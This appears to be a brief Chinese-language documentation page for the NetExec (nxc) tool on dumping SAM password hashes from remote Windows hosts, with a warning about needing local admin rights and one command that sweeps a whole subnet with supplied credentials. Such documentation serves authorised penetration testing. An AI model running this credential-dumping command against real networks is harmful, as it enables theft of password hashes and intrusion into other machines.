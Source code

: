 # 导出 SAM

### 使用 secretsdump.py 中的方法导出 SAM 哈希

{% hint style="warning" %}
你需要在远程目标上至少具有本地管理员权限，如果你的用户是本地账户，请使用 **--local-auth** 选项
{% endhint %}

```
#~ nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --sam
```
